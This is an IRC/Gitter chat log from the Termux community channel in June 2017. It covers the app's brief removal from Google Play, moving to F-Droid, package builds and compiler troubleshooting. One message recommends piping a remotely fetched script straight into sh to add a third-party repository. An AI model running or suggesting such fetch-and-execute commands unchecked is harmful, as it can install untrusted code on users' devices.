2017-06-07 08:25:28	parvathy	u guys us irssi on termux?

2017-06-07 08:25:50	parvathy	anybody??

2017-06-07 08:26:18	parvathy	how to pageup in termux??

2017-06-07 08:29:52	parvathy	got it. thanks dorks

2017-06-07 09:49:14	onexore	Help, running ruby wpscan.rb gave me error function getdtablesize not found on libc.so ... Android 7.1.2 with ruby-dev packages with some gems installed

2017-06-07 09:50:01	onexore	Any idea guys?

2017-06-07 10:36:17	fornwall	onexore: "The getdtablesize functions has been deprecated by Posix and has been removed from Android's LB64 ABI. Replace calls to it with the modern equivalent sysconf(_SC_OPEN_MAX)"

2017-06-07 10:37:08	fornwall	onexore: perhaps some ruby gem needs to be fixed, I don't think core ruby uses getdtablesize

2017-06-07 11:21:13	onexore	I see that, thanks for the explanation ... And sorry for being bad internet connection lol

2017-06-07 11:21:45	onexore	Its keeps me up and going :(

2017-06-07 13:08:33	gitter1	(sdrausty) @vishalbiswas I cannot download your new packages.

2017-06-07 14:11:36	gitter1	(vishalbiswas) @sdrausty ?

2017-06-07 14:13:04	gitter1	(sdrausty) @vishalbiswas not found at Google Drive.

2017-06-07 14:18:01	sdrausty	@vishalbiswas https://github.com/sdrausty/sdrausty.github.io/blob/master/bitpics/ircpwf.png

2017-06-07 14:24:28	gitter1	(vishalbiswas) @sdrausty https://drive.google.com/drive/folders/0B8Q4yBRb9PSHcVAxbjhZQmszbVU

2017-06-07 14:34:53	gitter1	(sdrausty) Download failed

2017-06-07 14:35:06	gitter1	(sdrausty) Item doesn't exist

2017-06-07 14:35:51	gitter1	(sdrausty) nettools.deb downloaded​ fine

2017-06-07 17:14:55	samitefan1	Did termux get pulled from the Google Play Store?

2017-06-07 17:15:48	samitefan1	I'm not able to find the main app anymore.

2017-06-07 17:22:22	samitefan1	Hello?

2017-06-07 17:28:19	samitefan1	Has termux disappeared from the app store for anybody else?

2017-06-07 17:40:01	sdrausty	samitefan1: Can't find it on the Google Play Store either.

2017-06-07 17:40:43	samitefan1	Oh goody it's not just me.

2017-06-07 17:41:49	sdrausty	The Termux addons are still there.

2017-06-07 17:46:24	samitefan1	Correct, just the main app disappeared.

2017-06-07 17:47:21	samitefan1	Is fornwall around?

2017-06-07 17:48:07	sdrausty	What do you think they don't like about Termux?

2017-06-07 17:48:46	samitefan1	Don't know if they pulled out or if fornwall did.

2017-06-07 17:49:21	sdrausty	Why would he pull the main app?

2017-06-07 17:50:06	samitefan1	Don't know. Whole thing is odd.

2017-06-07 17:54:25	sdrausty	`git` breaks, now this.

2017-06-07 18:03:31	rods-tab3	maybe you are just not worthy of termux ??

2017-06-07 18:05:50	rods-tab3	best:  https://play.google.com/store/apps/details?id=com.termux  and   https://termux.com

2017-06-07 18:08:17	samitefan1	Item not found error on mpbile

2017-06-07 18:08:27	samitefan1	Mobile*

2017-06-07 18:09:42	rods-tab3	the store doen't list it in my installed apps either

2017-06-07 18:10:15	samitefan1	Same here. Dns issue?

2017-06-07 18:12:11	rods-tab3	maybe fornwall picked up his marbles and went home

2017-06-07 18:18:10	rods-tab3	the droid seems to have it; is 0.50 the latest ?  https://f-droid.org/repository/browse/?fdid=com.termux

2017-06-07 18:18:16	gitter1	(sdrausty) You're right. We're learning too much about Android. Time to go home.

2017-06-07 18:19:14	rods-tab3	no kidding - time for Andromeda - androids replacement

2017-06-07 18:20:22	rods-tab3	at least it still seems to work ie apt update;  is 'apt upgrade' still working ?

2017-06-07 18:30:04	rods-tab3	upgrade seems to work

2017-06-07 18:31:32	sdrausty	http://termux.net is online.

2017-06-07 18:35:56	sdrausty	This might have something to do with the non-compete clause Google likes to promote with its' vendors. 

2017-06-07 18:58:20	samitefan1	Say wha? What is it competing with?

2017-06-07 19:21:20	sdrausty	Search "google non-compete"

2017-06-07 19:28:59	rods-tab3	store still down

2017-06-07 19:31:54	rods-tab3	i think??? he is being sarcastic  ::--))

2017-06-07 19:33:43	gitter1	(sdrausty) When you are in charge of Termux, you control Android. No Termux, who is in charge? Android, of course.

2017-06-07 19:35:42	rods-tab3	but you need to be rooted to take over android

2017-06-07 19:35:51	sdrausty	hell no

2017-06-07 19:37:51	sdrausty	if you need access to low level ports

2017-06-07 19:38:13	sdrausty	agreed

2017-06-07 19:38:15	rods-tab3	or the folders

2017-06-07 19:38:49	rods-tab3	does termux have juiceSSH or mosh ?

2017-06-07 19:38:51	sdrausty	why access folders you don't want to access anyway

2017-06-07 19:41:33	ParkerR	Aww twf did the PLay Store banhammer hit here too? :( (I assume because downloading code outside the store)

2017-06-07 19:41:34	ParkerR	*wtf

2017-06-07 19:43:43	sdrausty	https://plus.google.com/+StevenBrownottaky/posts/Lziy6NQmrzX

2017-06-07 19:43:44	ParkerR	sdrausty, rods-tab3 gitter1 Google has been removing applications that loads executable code not from the store ie the userland tools Termux uses

2017-06-07 19:43:58	ParkerR	*load

2017-06-07 19:44:20	sdrausty	"The following are explicitly prohibited:

2017-06-07 19:44:20	sdrausty	Apps or SDKs that download executable code, such as dex files or native code, from a source other than Google Play."

2017-06-07 19:44:23	ParkerR	Or the link sdrausty posted :) Better explains it

2017-06-07 19:45:09	ParkerR	I've seen a cople other applications hit too

2017-06-07 19:45:13	ParkerR	*couple

2017-06-07 19:46:28	ParkerR	Thanksfully FDroid has everything :)

2017-06-07 19:46:37	ParkerR	*Thankfully. I swear I can't type today

2017-06-07 19:48:31	rods-tab3	yea BIGLY BAD -- but some fdroid out of date - eg busybox

2017-06-07 19:54:18	sdrausty	https://f-droid.org/repository/browse/?fdfilter=Termux

2017-06-07 20:07:36	rod-yolo	[15:18] (rods-tab3) the droid seems to have it; is 0.50 the latest ?  https://f-droid.org/repository/browse/?fdid=com.termux

2017-06-07 20:10:29	live_the_dream_s	.51 is latest..

2017-06-07 20:11:26	gitter1	(sdrausty) Version 0.50 - Added on 2017-05-22

2017-06-07 21:07:13	rods-tab3	how tell ?  nojoy termux-info

2017-06-07 21:34:51	rods-tab3	where/what is the termux executable ?

2017-06-07 21:36:40	sdrausty	Other linux apps that do this are still up on Google Play.

2017-06-07 22:18:11	gitter1	(vishalbiswas) This is shit. There should be an opt-in for users to allow such apps instead of banning them globally.

2017-06-07 22:19:56	gitter1	(sdrausty) Can not believe all those raving reviews are gone now.

2017-06-07 22:21:09	gitter1	(sdrausty) Other linux apps that behave similarly are up and running on Google Play Store.

2017-06-07 22:22:15	rods-tab3	they have to protect the masses from themselves.

2017-06-07 22:22:19	gitter1	(vishalbiswas) @sdrausty Probably not. Is terminal-ide still up?

2017-06-07 22:23:29	gitter1	(vishalbiswas) Too bad there's no store listing for play store. I'm in a real good mood to post the worst review about the play store

2017-06-07 22:24:00	rods-tab3	just a terminal app would be ok, as long as no download eg ftp

2017-06-07 22:24:50	gitter1	(sdrausty) @vishalbiswas Terminal is ready to be installed along with a slew of apps that download goodies.

2017-06-07 22:24:54	gitter1	(vishalbiswas) Terminal IDE is available. So why is Termux blocked

2017-06-07 22:25:26	gitter1	(sdrausty) @vishalbiswas https://plus.google.com/+StevenBrownottaky/posts/Lziy6NQmrzX

2017-06-07 22:25:36	gitter1	(vishalbiswas) Does anybody know how could we find out? Contact play store?

2017-06-07 22:26:25	rods-tab3	his url explains it

2017-06-07 22:26:41	gitter1	(sdrausty) https://www.change.org/start-a-petition

2017-06-07 22:27:54	gitter1	(sdrausty) I enjoyed reading the reviews of Termux on Google Play. How about you?

2017-06-07 22:28:26	gitter1	(sdrausty) Did you enjoy reading them, too?

2017-06-07 22:35:07	gitter1	(vishalbiswas) @sdrausty f-droid doesn't have reviews. You must be in boredom hell now

2017-06-07 22:41:56	rods-tab3	can f-droid update termux ? or just install it ?

2017-06-07 22:51:42	gitter1	(vishalbiswas) if you have the play store version installed, you'll have to uninstall and reinstall from f-droid (thereby losing all data). after that you can just upgrade termux from f-droid

2017-06-07 22:56:34	rods-tab3	great .. <sarcasm>

2017-06-07 22:59:27	gitter1	(sdrausty) `zip` up the important stuff to backup before migrating.

2017-06-07 23:00:05	gitter1	(vishalbiswas) `tar.xz` is better. it prevents perms

2017-06-07 23:06:49	rods-tab3	so do you have to re-install all apps also ? (apps from termux: apt install ...)

2017-06-07 23:07:01	gitter1	(vishalbiswas) yes

2017-06-07 23:08:41	gitter1	(sdrausty) 647 packages that are available for arm computer architecture for Termux on Android as of 2017-06-06. https://sdrausty.github.io/pages/more.html

2017-06-07 23:33:27	rods-tab3	is there changelog for 0.49->0.50->0.51 ?

2017-06-07 23:37:16	sdrausty	rods-tab3: https://github.com/termux/termux-app/releases

2017-06-08 00:08:16	rods-tab3	thanks

2017-06-08 00:52:32	frumpylava	@sdrausty: Have you tried building Termux with your BuildAPKs system? Now might be a really good time for that ;)

2017-06-08 00:54:32	sdrausty	frumpylava: Tried. Build fails.

2017-06-08 00:55:58	frumpylava	sdrausty: Aww... It would be really cool if termux could build itself. What is the error message?

2017-06-08 01:14:25	sdrausty	It would be tremendous if it could build itself on device.

2017-06-08 01:42:48	sdrausty	ERROR: Unable to open class file src/com/termux/view/R.java: No such file or directory

2017-06-08 03:17:18	gitter1	(fornwall) Termux got pulled from Google Play "because it violates the payments policy".

2017-06-08 03:17:18	gitter1	(fornwall)

2017-06-08 03:17:18	gitter1	(fornwall) Unfortunately no more specific information were given, but I suspect the donate link in the app description caused the issue. Will read up on the payment policy of google play and submit an updated description without the donate link, so hopefully it will be put back!

2017-06-08 03:26:29	frumpylava	@fornwall Well, that does sound at least fixable. I was worried it was becasue of the "an app may not download executable code (e.g. dex, JAR, .so files) from a source other than Google Play" rule.

2017-06-08 04:43:24	fornwall	frumpylava: right, that is a tougher one. I wonder if terminal emulators get a freecard there, if one can argue that it's not the app itself that downloads it, but the user starting processes

2017-06-08 04:44:11	fornwall	(if so, for termux, only the initial download would have to be changed to be bundled with the app)

2017-06-08 04:49:15	frumpylava	fornwall: I hope google just looks the other way. Maybe they only enforce the rule when the app is behaving against google's interest.

2017-06-08 04:50:19	fornwall	I guess bundling the initial install files (bash/dpkg/apt/etc) with the app should be a good first step - increasing the app size with around 2 mb is not that hard

2017-06-08 04:52:30	fornwall	and then hope that files downloaded on the request by the user, and not initiated by the app itself, get an exception (otherwise google drive, dropbox, gmail attachments, browser downloads, ... would need to prevent downloading executable code files, which would be hard)

2017-06-08 04:54:35	frumpylava	Good point. Yeah, bundling might be good idea. (altough I rely on the bootstrap zips to be available as a download for my chrooted-termux script, which I do use extensively, so please don't remove them ;))

2017-06-08 04:59:51	frumpylava	But yeah, reading the TOS it was probably the donate link. How dare you accept donations on services other than google?

2017-06-08 05:04:25	fornwall	frumpylava: :). I can understand the policy, it's a slippery slope between donate and scams. though a descriptive warning would have been nice ("please remove the donate link in the app description, otherwise we'll pull the app in X days")

2017-06-08 05:04:51	fornwall	I've submitted an update with the donate link removed now, hopefully it'll be back soon

2017-06-08 05:08:22	frumpylava	Is that true that all f-droid apps have access to each other's data?

2017-06-08 05:54:02	frumpylava	fornwall: By the way, I created a label called "termux-app" in the termux-packages repository for all issues related to the app. It's probably fruitless to move all the issues to the right repository all the time. I hope that's fine.

2017-06-08 06:17:15	frumpylava	Cool. Termux seems to be back.

2017-06-08 06:17:34	frumpylava	^ @fornwall

2017-06-08 06:23:21	Guest64084	i just want to say thank you to all who support the processing and debugging of this app. its just awesome!!!

2017-06-08 06:53:39	gitter1	(apolbox) #ask

2017-06-08 06:54:07	gitter1	(apolbox) apache2 command not found?

2017-06-08 06:55:48	frumpylava	@apolbox Did you install it? `packages install apache2`

2017-06-08 09:41:26	gitter1	(noncom) no chance to disagree with Guest64084

2017-06-08 09:41:29	gitter1	(noncom) thank you all, all

2017-06-08 10:03:47	djoker67	quit

2017-06-08 10:29:13	djoker67	Hi! I been use Termux for 3 months now. It's amazing.

2017-06-08 10:29:52	djoker67	Anyone use it for creating Android Apps?

2017-06-08 10:30:22	djoker67	Or have a GUI library usable?

2017-06-08 10:46:40	gitter1	(vishalbiswas) djoker67: contact sdrausty. He has come up with scripts to build android apps

2017-06-08 10:48:26	gitter1	(vishalbiswas) frumpylava: sharing data of all f-droid apps. Sounds insane

2017-06-08 10:51:28	rods-tab3	what does that mean ?

2017-06-08 11:10:06	gitter1	(vishalbiswas) rods-tab3: ?

2017-06-08 11:40:15	rods-tab3	re ''sharing data''  ??

2017-06-08 11:42:16	gitter1	(vishalbiswas) rods-tab3: internal data of an app accessible to the others. shouldn't be allowed

2017-06-08 11:48:11	rods-tab3	termux beta still on the store -- just updated to 0.51

2017-06-08 11:49:15	gitter1	(vishalbiswas) rods-tab3: it was unbanned

2017-06-08 11:50:04	rods-tab3	the regular termux doesn't show up on search for ''termux''

2017-06-08 11:50:41	gitter1	(vishalbiswas) rods-tab3: because you have entered beta

2017-06-08 11:51:03	gitter1	(vishalbiswas) it will only show as beta. you can get the stable one if you exit the beta program

2017-06-08 11:52:02	rods-tab3	ok; how was it unbaned ? since it violates the stores ban on installing outside apps ?

2017-06-08 11:59:17	rods-tab3	termux-info still says  version <= 0.48

2017-06-08 12:00:44	gitter1	(vishalbiswas) rods-tab3: thats not a bug. it was planned that termux-api 0.49 would include a feature to get app version but it was never implemented

2017-06-08 12:02:31	rods-tab3	thats a hard thing ??  <sarcasm>

2017-06-08 12:03:33	rods-tab3	what is the path/name of the main executable ?

2017-06-08 12:04:31	gitter1	(vishalbiswas) rods-tab3: what "main" executable?

2017-06-08 12:05:48	rods-tab3	termux is a program - so i assume there is a file that is loaded when termux is run -  path/name of said file ?

2017-06-08 12:07:53	gitter1	(vishalbiswas) do you mean the java entry point into the app or the point at which it drops you into a shell?

2017-06-08 12:09:26	rods-tab3	the app has a file doesn't it - that is run when you execute termux ?

2017-06-08 12:11:58	gitter1	(vishalbiswas) so you need the entry point of the app itself?

2017-06-08 12:13:46	gitter1	(vishalbiswas) https://github.com/termux/termux-app/blob/master/app/src/main/java/com/termux/app/TermuxActivity.java#L209

2017-06-08 12:13:55	rods-tab3	ie in *nix systems there is an a.out file, in windows somefile.exe  -- that is brought into memory when you run a program - what path/name does termux have ?

2017-06-08 12:13:55	gitter1	(vishalbiswas) this is where the app starts working

2017-06-08 12:14:08	gitter1	(vishalbiswas) rods-tab3: termux is java

2017-06-08 12:14:45	rods-tab3	but doesnt the java code reside in a file somewhere ?

2017-06-08 12:15:26	gitter1	(vishalbiswas) rods-tab3: you need to learn more about java virtual machines and android app runtime internals

2017-06-08 12:17:24	rods-tab3	too old (2^3)*(3^2)  to learn new things

2017-06-08 12:18:20	gitter1	(vishalbiswas) android app life cycle is a little complicated. apps are managed by a daemon and started by "Intent"

2017-06-08 12:19:24	gitter1	(vishalbiswas) another app brodcasts an intent to start an app. the daemon (SystemUI) creates a dalvik vm for it and executes the bytecode from the dex files

2017-06-08 12:20:54	rods-tab3	but when you go to the google store and install a program - there is a file that is downloaded, installed, and then a file is left - if .dex file where is it stored ?

2017-06-08 12:23:01	gitter1	(vishalbiswas) hidden from view. actual apk is stored in /data/app and deodexed java classes are stored in /data/dalvik-cache

2017-06-08 12:32:35	frumpylava	rods-tab3: The ban was actually for something else entirely -> Donate link in store description. Google doesn't care (yet) that termux installs outside code.

2017-06-08 12:32:37	rods-tab3	ok, thanks

2017-06-08 12:33:42	gitter1	(vishalbiswas) frumpylava: php-apache is up https://github.com/termux/termux-packages/pull/1075

2017-06-08 12:35:51	frumpylava	@vishalbiswas That's very cool. thanks

2017-06-08 12:37:45	rods-tab3	how much of the termux price does google take ?

2017-06-08 12:38:35	gitter1	(vishalbiswas) termux is free. only termux::float and termux::tasker have a price tag

2017-06-08 12:39:14	rods-tab3	yea out of that $1.99, asuming google takes some ?

2017-06-08 12:40:31	gitter1	(vishalbiswas) rods-tab3: https://www.quora.com/How-much-does-Google-take-from-Android-game-app-developers-and-Google+-app-game-developers

2017-06-08 12:46:08	rods-tab3	yekes  ''You receive 70% of the payment and the remaining 30% goes to the distribution partner and operating fees.''   <-- whats  a distribution partner ?

2017-06-08 12:46:35	gitter1	(vishalbiswas) rods-tab3: probably google play

2017-06-08 12:47:34	rods-tab3	guess paypals 3++ percent take is lowest overhead then to donate

2017-06-08 12:48:25	gitter1	(vishalbiswas) paypal has been a blessing for lone developers since forever

2017-06-08 12:52:25	rods-tab3	Patreon would be good except you have to sign up for monthly payments, no one time donation.

2017-06-08 12:54:05	rods-tab3	no idea re bitcoin:1BXS5qPhJzhr5iK5nmNDSmoLDfB6VmN5hv

2017-06-08 12:54:52	gitter1	(vishalbiswas) bitcoins are volatile

2017-06-08 12:56:56	rods-tab3	paypal says pay in KR or USD - does it matter ?

2017-06-08 12:58:10	gitter1	(vishalbiswas) I'm not huge on currency exchange rates...

2017-06-08 12:59:13	rods-tab3	doesnt sweden use the euro currency ? (why did i think he is in finland?)

2017-06-08 12:59:45	frumpylava	rods-tab3: No. Sweden does not use the euro

2017-06-08 13:00:35	gitter1	(vishalbiswas) most european countries allow two currencies. their local currency (krona for sweden) and euro

2017-06-08 13:00:50	gitter1	(vishalbiswas) euro is usable throughout the european union

2017-06-08 13:02:36	rods-tab3	bah - paypal now charging 4.2 percent

2017-06-08 13:03:06	gitter1	(vishalbiswas) rods-tab3: they gotta eat, too, you know

2017-06-08 13:07:25	rods-tab3	but also says:  ''Funds Availability Date: Jun 14, 2017''        -- why the excessive hold time

2017-06-08 13:33:46	sdrausty	rods-tab3: They need time to play too.

2017-06-08 14:01:35	gitter1	(vishalbiswas) @sdrausty I can download ircd-hybrid aarch64 just fine

2017-06-08 14:06:01	sdrausty	vishalbiswas: download complete.

2017-06-08 14:19:31	sdrausty	@vishalbiswas $ ps aux |grep irc

2017-06-08 14:19:31	sdrausty	u0_a93    2168  0.4  0.1  16160  2952 ?        Ss   14:17   0:00 ircd

2017-06-08 14:19:40	sdrausty	Thank you.

2017-06-08 14:20:25	gitter1	(vishalbiswas) sdrausty: don't thank yet. make sure it works (accepts connections)

2017-06-08 14:28:50	sdrausty	rods-tab3: https://plus.google.com/112157026023718599976/posts/2qGWEU7k6xf

2017-06-08 14:32:14	sdrausty	@vishalbiswas 14:30 !localhost.termux *** Notice -- You need to install identd to use this server

2017-06-08 14:35:11	sdrausty	I used `irssi -c localhost`

2017-06-08 19:21:48	sdrausty	@vishalbiswas I tried `irssi -c 127.0.0.1` and guess what happened?

2017-06-08 19:25:19	rods-tab3	you started talking to yourself ?  ::--))

2017-06-08 19:28:10	sdrausty	@vishalbiswas My Android device reset. Everything when to reset! All the connections when down while Android was rebooting. 

2017-06-08 19:30:12	sdrausty	*when/went

2017-06-08 19:33:57	sdrausty	I am glad it works now. Let's get back to building onDevice.

2017-06-08 19:42:40	rods-tab3	bug in irssi

2017-06-08 20:15:14	paradigm	The timezone information within a `termux-chroot` instance appears incorrect.  Anyone know how termux gets its timezone information so that I can try to fix it in the chroot?  I tried grepping `strace date` output but didn't see anything promising.

2017-06-08 20:22:52	swift110	hey all

2017-06-08 20:24:04	paradigm	greetings, swift110

2017-06-08 20:28:17	swift110	how are you paradigm

2017-06-08 20:28:22	paradigm	not to shabby

2017-06-08 20:28:24	swift110	I am trying to learn how to use termux on my phone

2017-06-08 20:28:27	swift110	good

2017-06-08 20:28:48	paradigm	if you have a more specific question I might be able to help

2017-06-09 00:22:35	gitter1	(vishalbiswas) @fornwall Wake up. NDK 15 was released. I want to run some builds

2017-06-09 00:45:48	gitter1	(jaytula) @vishalbiswas Does that mean that php-mysql can now be built?

2017-06-09 01:04:20	gitter1	(vishalbiswas) @jaytula thats what I want to test

2017-06-09 01:16:09	gitter1	(jaytula) @vishalbiswas cool. would like to help in anyway.

2017-06-09 01:20:07	gitter1	(jaytula) docker image needs to be updated to use ndk15, is that right?

2017-06-09 08:57:03	frumpylava	Does anyone know of a working smtp and imap server? It would be really cool to have an imap server on termux. I could use it with external mail apps.

2017-06-09 11:57:54	Farshid	frumpylava: i installed bmon and htop, now which of these is cool https://github.com/dustinkirkland/hollywood/tree/master/lib/hollywood

2017-06-09 11:58:23	Farshid	and also i put them in ~/.termux/tasker ?

2017-06-09 12:31:02	gitter1	(vishalbiswas) did i hear dovecot?

2017-06-09 12:31:56	frumpylava	 @vihalbiswas yeah, tried to quickly compile it, but it doesn't work out of the box

2017-06-09 12:32:22	gitter1	(vishalbiswas) frumpylava: what's the blocker?

2017-06-09 12:34:39	frumpylava	configure: error: cannot run test program while cross compiling

2017-06-09 12:35:46	gitter1	(vishalbiswas) do me a favor and run configure on your phone, then paste the config.log somewhere

2017-06-09 12:36:09	gitter1	(vishalbiswas) i just need to cross check hardcoded config vars

2017-06-09 12:43:40	gitter1	(vishalbiswas) frumpylava: do you need any of the sql (mariadb, postgres, sqlite) support?

2017-06-09 12:44:44	frumpylava	hmm... I'm not sure.

2017-06-09 12:47:30	frumpylava	@vishalbiswas http://glow.li/share/config.log

2017-06-09 12:50:10	frumpylava	I don't think I need database access. It's just for authentication, I think.

2017-06-09 12:50:19	gitter1	(vishalbiswas) frumpylava: only `lib_cv_va_val_copy` differs. mine (x86_64) shows no

2017-06-09 12:51:13	frumpylava	which means?

2017-06-09 12:53:57	gitter1	(vishalbiswas) `/usr/local/google/buildbot/src/android/gcc/toolchain/build/../gcc/gcc-4.9/libgcc/unwind-arm-common.inc:855: error: undefined reference to '__cxa_call_unexpected'`

2017-06-09 12:54:03	gitter1	(vishalbiswas) just what I like

2017-06-09 13:20:03	gitter1	(vishalbiswas) frumpylava: has some more roadblocks. will try more tomorrow

2017-06-09 19:13:32	gitter1	(cocodevienne) Uh, guys how do I write Vim plugins and run them? Because the command `:py 1` doesn't work inside of Vim...

2017-06-09 19:13:43	gitter1	(cocodevienne) In Python that is...

2017-06-10 00:33:25	frumpylava	@cocodevienne install vim-python

2017-06-10 02:03:06	gitter1	(vishalbiswas) frumpylava: aarch64, right?

2017-06-10 02:04:37	gitter1	(vishalbiswas) frumpylava: https://drive.google.com/open?id=0B8Q4yBRb9PSHalhaZGN0czRZSUk tell me if something goes awry

2017-06-10 02:20:59	frumpylava	@vishalbiswas Thanks, I'll try it out soon, when I have time.

2017-06-10 04:52:13	gitter1	(vishalbiswas) is there a way to change gtk icon directory at compile time?

2017-06-10 06:05:17	gitter1	(vishalbiswas) [](https://files.gitter.im/termux/termux/PUdc/image.png)

2017-06-10 06:05:32	gitter1	(vishalbiswas) gtk3, finally

2017-06-10 06:07:56	gitter1	(prinxy) I can no longer scroll up and down.... Instead of moving up, termux brings out past commands...

2017-06-10 06:10:05	gitter1	(vishalbiswas) live_the_dream: I'll update the x11 repo tomorrow with all my recent changes and also add some gui apps to test them

2017-06-10 06:10:51	gitter1	(prinxy) Restarting termux solved the problem... Thanks all

2017-06-10 06:24:12	gitter1	(prinxy) How can I access internet from termux

2017-06-10 06:26:26	gitter1	(vishalbiswas) depends on what you want to do. for browsing you can use lynx browser

2017-06-10 06:26:33	gitter1	(vishalbiswas) or elinks

2017-06-10 06:28:52	freeemint	Can i have more than open for Termux without buying a plugin?

2017-06-10 06:29:43	freeemint	*more than one

2017-06-10 06:30:00	gitter1	(vishalbiswas) freemint: slide from left.

2017-06-10 06:30:09	gitter1	(vishalbiswas) you'll see a button named new session

2017-06-10 06:30:19	freeemint	thx

2017-06-10 06:31:01	gitter1	(prinxy) Thanks @vishalbiswas  I want to open my mail

2017-06-10 06:31:28	gitter1	(vishalbiswas) @prinxy "open my mail" in a browser or a mail client? we have mutt

2017-06-10 08:08:07	gitter1	(prinxy) Mutt is giving an error @vishalbiswas .... How do I set up my mail as default for mutt?

2017-06-10 11:00:13	gitter1	(TheDiamondYT1) Sup

2017-06-10 11:01:04	gitter1	(vishalbiswas) @TheDiamondYT1 can you confirm whether `export JAVA_OPTS="--permit-illegal-access"` fixes that issue with maven?

2017-06-10 11:06:51	gitter1	(TheDiamondYT1) @vishalbiswas Nope. Full log (with -X switch): http://paste.ubuntu.com/24823886/

2017-06-10 11:08:32	gitter1	(vishalbiswas) @TheDiamondYT1 we'll have to wait for upstream, then, I suppose

2017-06-10 11:08:51	gitter1	(TheDiamondYT1) Isn't it a lombok error because it accesses the `com.sun` classes?

2017-06-10 11:09:29	gitter1	(vishalbiswas) @TheDiamondYT1 java 9 locks down everything. jigsaw

2017-06-10 11:10:12	gitter1	(vishalbiswas) But seriously. Minecraft server?

2017-06-10 11:11:22	gitter1	(TheDiamondYT1) @vishalbiswas First repo i could think of with multiple maven modules

2017-06-10 11:12:59	gitter1	(TheDiamondYT1) And i do like developing for minecraft thats why i cant wait for java to be merged into termux...i'd very much like to create a gitter bridge

2017-06-10 11:14:26	gitter1	(vishalbiswas) @TheDiamondYT1 I have not updated that java build for last two repo updates. Maybe that's what is causing this failure

2017-06-10 11:15:39	gitter1	(TheDiamondYT1) Maybe

2017-06-10 11:17:46	gitter1	(TheDiamondYT1) @vishalbiswas so basically we need the jre installed to install the jdk?

2017-06-10 11:18:09	gitter1	(vishalbiswas) or u can pass both deb files to the installer

2017-06-10 11:21:42	gitter1	(vishalbiswas) where can I find source code of android's `sdkmanager` utility

2017-06-10 12:07:18	u0_a137	hello everyone ,how to put in Chinese in termux?

2017-06-10 12:35:44	lleo	clang 64bits available?

2017-06-10 12:37:48	gitter1	(vishalbiswas) lleo: I'm lost...

2017-06-10 12:41:38	lleo	evenin gitter

2017-06-10 12:44:25	gitter1	(mklein994) I'm having trouble with npm: https://gist.github.com/mklein994/c296e5ab4c6dc9765505acb82b97e1b9

2017-06-10 12:44:26	gitter1	(vishalbiswas) lleo: what do you mean by 64 bits?

2017-06-10 12:45:31	gitter1	(mklein994) Does anyone know if `npm install -g npm` works properly? Or was some magic dust applied to make it work on Termux?

2017-06-10 12:45:47	lleo	gcc -64 , so i can compile a kernel

2017-06-10 12:46:30	gitter1	(vishalbiswas) you mean -m64?

2017-06-10 12:48:55	gitter1	(mklein994) Right now `nodejs` comes with `npm 3.10.10`. The latest is `5.0.3`. Lots has changed under the hood since then.

2017-06-10 12:49:46	lleo	lang: Unknown command line argument '-aarch64-fix-cortex-a53-835769=1'.  Try: 'clang -help'

2017-06-10 12:50:51	lleo	trying gcc -dumpspecs

2017-06-10 12:54:47	gitter1	(vishalbiswas) lleo: when does it spit that one out?

2017-06-10 12:58:00	lleo	simple test program, probable not matching gcc as versions

2017-06-10 13:06:55	lleo	clang does not know about dumpspecs?

2017-06-10 13:11:34	lleo	clang version 4.0.0

2017-06-10 13:13:31	gitter1	(vishalbiswas) lleo: there is no concept of specs in clang

2017-06-10 13:14:51	lleo	specs usually do the cmdlines

2017-06-10 13:15:37	lleo	if i find a wifi i'll update clang

2017-06-10 13:17:10	gitter1	(vishalbiswas) lleo: if you really need gcc, then `curl -L https://raw.githubusercontent.com/its-pointless/its-pointless.github.io/master/setup-pointless-repo.sh | sh`

2017-06-10 13:17:51	gitter1	(vishalbiswas) this will add another repo to apt. its-pointless (live_the_dream) host gcc as well as other useful apps on his repo

2017-06-10 13:21:08	lleo	compiling gcc is funfun

2017-06-10 14:34:35	gitter1	(ToastyMod) um this is my first time using gitter hi

2017-06-10 14:37:06	gitter1	(ToastyMod) termux is really cool guys

2017-06-10 14:37:22	gitter1	(ToastyMod) are you guys thinking of doing anything graphical?

2017-06-10 14:46:37	lleo	ok pointless repo is not different in behavioure

2017-06-10 14:49:40	lleo	https://github.com/Microsoft/clang/blob/master/test/Driver/aarch64-fix-cortex-a53-835769.c

2017-06-10 14:55:23	lleo	clang: backend not aligned version for the frontend for a53 64bits cpus

2017-06-10 15:37:49	bob___	hi

2017-06-10 15:40:25	bob___	any newsbeuter+youtube-dl users?

2017-06-10 15:43:48	bob___	i tried to set a macro to open youtube feeds in youtube-dl with macro y set browser "/data/data/com.termux/files/usr/bin/youtube-dl %u"; open ; set browser "termux-open %u"

2017-06-10 15:50:03	lleo	gcc-7 found :) compiling kernel

2017-06-10 15:50:58	bob___	but it doesn't work :/ it launch fine on the shell directly :/

2017-06-10 16:01:45	Church-	bob___: One sec. Got a script for you.

2017-06-10 16:07:18	gitter1	(mklein994) @ToastyMod @vishalbiswas has some stuff going on (iirc) with X11.

2017-06-10 16:07:53	bob___	thanks church

2017-06-10 16:29:27	gitter1	(fornwall) @vishalbiswas I'll look into ndk r15 tomorrow (the plan is to first add it with the deprecated, non-unified headers as a first step, then transition to unified as the next)

2017-06-10 16:30:00	gitter1	(fornwall) Need to go through libandroid-support, it's changed a bit in r15

2017-06-10 16:31:13	gitter1	(fornwall) That's long overdue anyway, as libandroid-support is a bit messy. Should probably create a repo for libandroid-support, so we have better control what it contains and can add things like getpass

2017-06-10 17:01:20	gitter1	(TheDiamondYT1) @vishalbiswas ive been writing a really long script to test with your java PR

2017-06-10 17:02:51	lleo	pff

2017-06-10 17:06:19	lleo	so far the 64bits android-eabi, i;m off

2017-06-10 18:27:24	gitter1	(TheDiamondYT1) @vishalbiswas https://github.com/TheDiamondYT1/termux-java-test/blob/master/test.sh

2017-06-10 20:14:51	gitter1	(ToastyMod) @mklein994 neat

2017-06-10 23:39:31	gitter1	(vishalbiswas) @TheDiamondYT1 I've updated the arm deb file again. Download the 6.8 version and check whether it works

2017-06-11 01:58:38	bob___	hey

2017-06-11 01:59:19	bob___	any newsbeuter+youtube-dl users?

2017-06-11 03:55:40	pr1	Hello

2017-06-11 08:27:14	bob___	o_o

2017-06-11 08:42:00	bob___	anybody out there?

2017-06-11 08:42:44	bob___	tried to link newsbeuter & youtube-dl, the config macro doesn't seem to work (i used the complete path the the bin), any hint?

2017-06-11 08:44:10	bob___	macro y set browser "/data/data/com.termux/files/usr/bin/youtube-dl %u"; open ; set browser "termux-open %u"

2017-06-11 08:50:23	gitter1	(vishalbiswas) bob___: can you give me a demo rss link to test

2017-06-11 09:04:28	bob___	yes ofc

2017-06-11 09:04:41	bob___	https://motherboard.vice.com/en_us/rss

